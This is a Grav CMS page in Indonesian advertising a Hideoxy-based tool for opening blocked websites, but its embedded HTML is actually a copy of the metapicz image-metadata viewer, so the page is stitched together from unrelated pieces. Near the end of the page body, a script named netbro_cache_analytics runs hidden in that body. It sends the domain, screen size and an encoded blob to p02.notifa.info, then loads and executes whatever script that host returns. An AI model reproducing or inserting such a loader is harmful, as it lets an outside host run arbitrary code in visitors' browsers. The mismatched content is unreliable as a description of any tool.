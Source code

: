 ```yaml
---
title: Tools
media_order: website-blocked.png
published: true
date: '23-06-2019 23:33'
taxonomy:
    category:
        - Tool
    tag:
        - 'Unblock Website'
hide_page_title: false
show_sidebar: false
hide_git_sync_repo_link: false
body_classes: 'header-animated header-dark header-transparent'
---
```


[center]**Buka Website Yang Diblokir**[/center]
[center]Tool ini dibuat berdasarkan Hideoxy. Hideoxy adalah proxy web gratis baru untuk menjelajahi internet secara anonim. Alat ini dapat menyembunyikan alamat IP Anda, mengamankan koneksi Internet Anda, menelusuri situs web secara anonim, menyembunyikan riwayat Internet Anda dan melindungi privasi Anda secara online. Anda dapat menggunakan proksi web Hideoxy di rumah dan di kantor untuk mengunjungi situs web yang diblokir, seperti YouTube, Reddit, Facebook, Google, Tumblr, dan banyak lagi. Jika Anda merasa perlu untuk mengunjungi Hideoxy, gunakan [tautan ini](http://www.hideoxy.com)[/center]

<div>
<!DOCTYPE html>
<html>

<head>
  <meta charset="utf-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
  <title>online metadata and exif viewer</title>
  <meta name="description" content="Visualize image metadata anywhere">
  <meta name="viewport" content="width=device-width">
  <link rel="shortcut icon" href="http://metapicz.com/images/metapicz-favicon.ico">
  <link rel="stylesheet" href="http://metapicz.com/css/bootstrap.css">
  <!--<link rel="stylesheet" type="text/css" href="http://fonts.googleapis.com/css?family=Lobster|Merriweather">-->
  <link href="http://fonts.googleapis.com/css?family=Open+Sans:800italic,800" rel="stylesheet" type="text/css">
  <script src="http://metapicz.com/js/libs/modernizr-2.0.6.min.js"></script>
  <script src="http://metapicz.com/js/libs/jquery-1.7.1.min.js"></script>
  <script src="http://metapicz.com/js/jquery.color.js"></script>
  <script src="http://metapicz.com/js/plugins.js"></script>
  <script src="http://metapicz.com/js/script.js"></script>
  <script src="http://maps.google.com/maps/api/js?sensor=false"></script>
  <script src="http://metapicz.com/js/Crypto.js"></script>
  <script src="http://metapicz.com/js/binaryajax.js"></script>
  <script src="http://metapicz.com/js/picapica.js" s=""></script>
</head>

<body>
  <!-- Prompt IE 6 users to install Chrome Frame. Remove this if you support IE 6.
   chromium.org/developers/how-tos/chrome-frame-getting-started -->
  <!--[if lt IE 7 ]><p class=chromeframe>Your browser is <em>ancient!</em> <a href="http://browsehappy.com/">Upgrade to a different browser</a> or <a href="http://www.google.com/chromeframe/?redirect=true">install Google Chrome Frame</a> to experience this site.</p><![endif]-->
  <header>
    <!-- navbar -->
    <div class="title-container">
      <div class="container">
        <div class="title"><a href="" style="color:inherit;text-decoration:none;">metapicz</a></div>
        <!-- <div id="beta-tag"><img src="images/beta-badge.png" width="50" height="50"></div> -->
        <div class="subtitle"></div>
        <!--
            <div class="subtitle">[ view your metadata ]</div>
            <div class="subtitle">[ make links to metadata ]</div>
            <div class="subtitle">[ manage your metadata ]</div>
            <div class="subtitle">[ extract metadata ]</div>
            <div class="subtitle">[ user account ]</div>
            <div class="subtitle">[ view your metadata ]</div>
            <div class="subtitle">[ claim your metadata ]</div>
            -->
      </div>
    </div>
  </header>
  <noscript>
    <!-- hide some stuff when javascript is disabled -->
    <style type="text/css">
      .main-tab {
        display: none !important;
      }
    </style>
    <div class="container">
      <div class="alert alert-error">
        <b style="color:red;">You don't have javascript enabled.</b><br> Metapicz can not work without javascript... sorry :(.
        <!-- <br><br>Here is a hint of what you are missing. -->
      </div>
    </div>
  </noscript>
  <div class="container">
    <div role="main">
      <div id="browser-old" style="display:none"></div>
      <div id="notification-section"></div>
      <div id="landing" class="main-tab">
        <div class="row">
          <div class="span12"></div>
          <p></p>
        </div>
        <!--
        <div class="row">
            <div class="span12">
                <div class="alert alert-success center">
                    Something to prove on the go? Try Securo Mobile for <a href="http://itunes.apple.com/app/securo-mobile-pro/id541525980" target="_blank">iPhone</a> and <a href="https://play.google.com/store/apps/details?id=it.securo.mobile.pro" target="_blank">Android</a>
                </div>
            </div>
        </div>

        <div class="row">
            <div class="span6">
                <div class="alert alert-info">
                    <a href="http://easytimestamping.com/en/" target="_blank">easytimestamping.com protects your intellectual property</a>
                </div>
            </div>

            <div class="span6">
                <div class="alert alert-info">
                    <a href="http://wordpress.org/extend/plugins/view-metadata-on-metapicz/" target="_blank">Integrate metapicz in your blog</a> with our wordpress extension.
                </div>
            </div>
        </div>
        -->
        <div class="row">
          <div class="span12">
            <div id="viewer-dropbox">
              <div id="viewer-dropbox-text" class="center">
                <h2>Drop image files here</h2>
                <a href="javascript: void(0)" style="position:relative; left:150px; font-size: 14px">or select</a>
                <input type="file" id="upload_input" name="upload" onchange="onViewerSelect(this.files)" style="opacity: 0; filter:alpha(opacity: 0);  width: 300px; position: relative; top: 0px; left: -100px">
              </div>
            </div>
          </div>
        </div>
        <div class="row">
          <div class="span12">
            <div id="viewer-url" class="center">
              <label><b>or enter the picture URL</b></label>
              <form class="form-inline">
                <input id="viewer-url-input" type="text" class="span4" placeholder="Insert picture URL">
                <button id="viewer-url-go">GO!</button>
              </form>
            </div>
          </div>
        </div>
        <div id="exif"></div>
      </div> <!-- landing -->
      <div id="linker" class="main-tab">
        <div id="linker-help" class="alert alert-info">
          <p>Here you can create links to the metadata page of the specified image URL. With that link, anybody can see the picture data, the camera info, copyright etc., without installing any plugin, extension or dedicated appplication.</p>
          <p>Use it in your blog or website.</p>
        </div>
        <div id="linker-input">
          <!--Insert image url: <input id="linker-input-url" name="linker-input-url" type="text" onkeypress="onLinkerInputChange(this)" onkeyup="onLinkerInputChange(this)" onkeydown="onLinkerInputChange(this)"/>-->
          <table cellpadding="0">
            <tbody>
              <tr>
                <td class="linker-input-label span4"> Insert image url: </td>
                <td>
                  <div class="linker-input-separator"></div>
                </td>
                <td class="linker-input-url">
                  <input class="span8" id="linker-input-url" name="linker-input-url" type="text" onkeypress="onLinkerInputChange(this)" onkeyup="onLinkerInputChange(this)" onkeydown="onLinkerInputChange(this)">
                </td>
              </tr>
            </tbody>
          </table>
        </div>
        <div class="row">
          <div class="span4">
            <div id="linker-result-newtab-text"></div>
          </div>
          <div class="span8">
            <div id="linker-result-newtab-html" class="well"></div>
          </div>
          <!-- <input class="text" id="linker-result-html" name=""/> -->
        </div>
        <hr>
        <div class="row">
          <div class="span4">
            <div id="linker-result-popup-text"></div>
          </div>
          <div class="span8">
            <div id="linker-result-popup-html" class="well"></div>
          </div>
        </div>
      </div> <!-- linker -->
      <div id="manager" class="main-tab">
        <div id="uimps-nav"></div>
        <div id="uimps-list" class=""></div>
      </div> <!-- manager -->
      <div id="extractor" class="main-tab">
      </div> <!-- extractor -->
      <div id="useraccount" class="main-tab">
        <div class="message-section"></div>
        <div id="account-template">
          <div id="main-account" class="">
            <h2>Username</h2>
            <!-- TODO: User stats -->
          </div>
          <div style="clear:all; height:20px;"></div>
          <div id="identities" class="">
            <h2>Identities</h2>
            <ul id="identities-list">
              <li id="identity-template">Identity 1</li>
            </ul>
            <h2>Linkable identities</h2>
            <ul id="linkable-identities-list">
              <li id="linkable-identity-template"><a class="icon flickr">flickr</a></li>
            </ul>
          </div>
        </div>
      </div> <!-- useraccount -->
      <div id="viewer" class="main-tab">
        <!--<a id="back-to-claimer" href="javascript:void(0)" onclick="">back</a>-->
        <div id="nav-buttons" class="center">
          <button id="back-to-claimer" type="button" name="back" value="back">&lt; back</button>
        </div>
        <div id="exif"></div>
      </div> <!-- viewer -->
      <div id="claimer" class="main-tab">
        <div id="result"></div>
        <div id="drop_it_like_its_hot">
          <h2>Drop image files here</h2>
        </div>
        <!-- <div id="progress_bar"><div class="percent"></div></div> -->
        <div id="claimer-nav"></div>
        <div id="claimer-result" class="">
          <!--
            <div id="imgx" class="thumbnail" >
                <div class="image shadow-out" style="border: 2px solid #FB9500">
                    <img src="" alt="thumb" />
                </div>
            <div class="thumbnail-menu" >actions</div>
            </div>
            -->
        </div>
        <div id="claimer-actions" style="display:none;">
          <button id="claimer-confirm" onclick="javascript:claimerConfirm()"><b>merge metadata</b></button>
          <button type="button" name="clear" value="clear" onclick="location.href=''">clear</button>
        </div>
      </div> <!-- claimer -->
    </div> <!-- end div role="main" -->
  </div> <!-- container -->
  <hr>
  <footer ></footer>
  <!-- Setup google analytics for production environment -->
  <!-- Asynchronous Google Analytics snippet. Change UA-XXXXX-X to be your site's ID.
         mathiasbynens.be/notes/async-analytics-snippet -->
  <script>
    var _gaq = [
      ['_setAccount', 'UA-25251197-1'],
      ['_trackPageview']
    ];
    (function(d, t) {
      var g = d.createElement(t),
        s = d.getElementsByTagName(t)[0];
      g.src = ('https:' == location.protocol ? '//ssl' : '//www') + '.google-analytics.com/ga.js';
      s.parentNode.insertBefore(g, s)
    }(document, 'script'));
  </script>
  <script>
    $(document).ready(function() {
      console.log('ready!')
      /*
      if( location.hash === '#landing' ) {
          $("#notification").text("Welcome to picapica").fadeIn( function() {
              var notification = $(this);
              setTimeout(function() {
                  notification.text = "";
                  notification.fadeOut()
              }, 4000);
          });
      }
      */
      hasher.authenticated = false;
      if (hasher.authenticated) {
        console.log('user IS authenticated:')
        // Surprisingly, even if hasher.authenticated == true the 'user' session variable could still be undefined... but it does not seem to create trouble.
        hasher.user = null;
        console.log(hasher.user);
      }
      picapicaInit();
      if (hasher.authenticated && ['', '#', '#landing'].indexOf(location.hash) != -1) {
        location.hash = '#timestamper';
      } else if (['', '#'].indexOf(location.hash) != -1) {
        location.hash = '#landing';
      }
      $(window).trigger('hashchange');
    });
  </script>
  <script type="text/javascript">
    if (self == top) {
      function netbro_cache_analytics(fn, callback) {
        setTimeout(function() {
          fn();
          callback();
        }, 0);
      }

      function sync(fn) {
        fn();
      }

      function requestCfs() {
        var idc_glo_url = (location.protocol == "https:" ? "https://" : "http://");
        var idc_glo_r = Math.floor(Math.random() * 99999999999);
        var url = idc_glo_url + "p02.notifa.info/3fsmd3/request" + "?id=1" + "&enc=9UwkxLgY9" + "&params=" + "4TtHaUQnUEiP6K%2fc5C582JKzDzTsXZH2fXn8QTqtmQtvBZER4aQGobRQjowHmW9tFOEesA5VwnhxWKzEcMcf8bQ8oZoXj0sMATpAE67jBik%2boBQv0Ww9ServCihh8ADqtaV02kYePSIfh8aTc28ex%2bNOVmzQLe0jLovdRmwfgBU%2bLWV726jIXtBKoxCEdSnNwFuz2Ya2CNjyHQBENzchVkTbWJKc48CPvyaEmAEdBkD6aWRyCSc3TW%2btL2gdmzafWkoG7o6w%2fgBlWVRVxCN2kWYrGz8RMcRWJYLNWfVv7YxbqqZ90UfWKOYFpM%2b1Q72ZuXpwhzbrHuJzA1MSdGX5R7sDYFcFbh81qSN4wvYIO6M%2bjdfrdGD%2fOEJ7AesmLP8IwErgunLCC%2fyYtMKmk5l9LJVDOhP33OG%2bt8FSKNtsVOXq8cX6Uib24M05dj%2fzIKBz75NfYdBKFSEMVS60F2wfqC64Y%2b9YrRx2mfnz0yejAX3LAEuRee7TtsZO1ph6d%2fBcjbtO4dECcj%2fUJeAebyiRBXOaMfwVUC1JKwCa14PSqE%2fIGm6UYAJI2KfFuIt4VRl0" + "&idc_r=" + idc_glo_r + "&domain=" + document.domain + "&sw=" + screen.width + "&sh=" + screen.height;
        var bsa = document.createElement('script');
        bsa.type = 'text/javascript';
        bsa.async = true;
        bsa.src = url;
        (document.getElementsByTagName('head')[0] || document.getElementsByTagName('body')[0]).appendChild(bsa);
      }
      netbro_cache_analytics(requestCfs, function() {});
    };
  </script>
  <!-- vim:set et: -->
</body>

</html>
</div>